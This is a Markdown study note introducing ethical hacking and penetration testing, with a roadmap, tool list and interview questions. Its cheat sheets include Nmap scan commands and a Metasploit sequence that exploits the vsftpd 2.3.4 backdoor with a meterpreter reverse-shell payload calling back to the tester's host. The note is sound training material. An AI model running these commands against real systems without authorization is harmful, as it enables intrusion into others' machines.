```yaml
---
id: cxraguqcksd08zeuxoxi362
title: Ethical Hacking
desc: ''
updated: 1753518125180
created: 1753518119378
---
```

tags: [master, ethical-hacking, cybersecurity, pentesting, infosec, red-team]

---

## 📌 Topic Overview

**Ethical Hacking** (aka Penetration Testing) is the authorized practice of probing systems, networks, and applications for vulnerabilities — before malicious hackers find and exploit them. It’s the proactive arm of cybersecurity aimed at **identifying weaknesses and strengthening defenses**.

> Think of ethical hackers as **white-hat ninjas** hired to break in so the fortress can be better fortified.

It blends technical skills, creativity, and a deep understanding of attacker mindsets and tools.

---

## 🚀 80/20 Roadmap

| Stage | Concept                        | Why It Matters                                               |
|-------|--------------------------------|--------------------------------------------------------------|
| 1️⃣    | Reconnaissance & Footprinting | Collect info about target: IPs, domains, services             |
| 2️⃣    | Scanning & Enumeration        | Discover open ports, running services, system details         |
| 3️⃣    | Vulnerability Analysis        | Identify known exploits, misconfigurations                    |
| 4️⃣    | Exploitation                 | Gain access via vulnerabilities                               |
| 5️⃣    | Post-Exploitation            | Maintain access, escalate privileges, pivot                    |
| 6️⃣    | Reporting                   | Document findings with risk levels and remediation advice     |
| 7️⃣    | Legal & Ethical Frameworks    | Understand laws, rules of engagement, and responsible disclosure |

---

## 🛠️ Practical Tasks

- ✅ Use **Nmap** for network scanning and port discovery  
- ✅ Perform **WHOIS** and DNS enumeration for footprinting  
- ✅ Run vulnerability scanners like **OpenVAS** or **Nessus**  
- ✅ Exploit simple vulnerabilities with **Metasploit Framework**  
- ✅ Conduct password cracking with **Hydra** or **John the Ripper**  
- ✅ Analyze web apps for XSS, SQLi, and CSRF with **Burp Suite**  
- ✅ Write clear, actionable penetration test reports  
- ✅ Practice responsible disclosure and get familiar with legal boundaries  

---

## 🧾 Cheat Sheets

### ▶️ Nmap Common Commands

```bash
nmap -sS -p 1-65535 target_ip      # TCP SYN scan all ports
nmap -A target_ip                  # Aggressive scan with OS/service detection
nmap --script vuln target_ip       # Run vulnerability scripts
````

---

### ▶️ Metasploit Quick Start

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST target_ip
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST your_ip
exploit
```

---

### ▶️ Burp Suite Workflow

1. Set browser proxy to Burp (default 127.0.0.1:8080)
2. Intercept and modify HTTP requests/responses
3. Scan for vulnerabilities with Burp Scanner (Pro)
4. Use Repeater to fuzz inputs and test attack vectors

---

## 🎯 Progressive Challenges

| Level           | Challenge                                                        |
| --------------- | ---------------------------------------------------------------- |
| 🥉 Beginner     | Scan a local network and identify open ports and services        |
| 🥈 Intermediate | Exploit a vulnerable web app using Burp Suite and manual testing |
| 🥇 Advanced     | Perform privilege escalation on a compromised machine            |
| 🏆 Expert       | Conduct a full red team engagement including phishing simulation |

---

## 🎙️ Interview Q\&A

* **Q:** What is the difference between black-box, white-box, and gray-box testing?
* **Q:** How do you stay within legal boundaries during penetration testing?
* **Q:** Explain the common attack vectors for web applications.
* **Q:** How does Metasploit simplify exploitation?
* **Q:** What tools do you use for post-exploitation?

---

## 🛣️ Next Tech Stack Recommendations

* **Kali Linux** — Ultimate pentesting OS with pre-installed tools
* **Metasploit Framework** — Exploitation and payload delivery
* **Burp Suite** — Web app security testing
* **Wireshark** — Network traffic analysis
* **John the Ripper / Hashcat** — Password cracking
* **Cobalt Strike** — Advanced adversary simulation (licensed)
* **OWASP ZAP** — Open source web vulnerability scanner

---

## 🔍 Mental Model

> “Ethical hacking is a **controlled offense** — combining hacker curiosity with a responsible mindset, systematically probing, exploiting, and reporting weaknesses before attackers do.”

* ✅ Information gathering precedes everything
* ✅ Always test within scope and with permission
* ✅ Automation + manual techniques = thorough testing
* ✅ Good reporting bridges tech and management
* ✅ Ethical hackers are defenders disguised as attackers
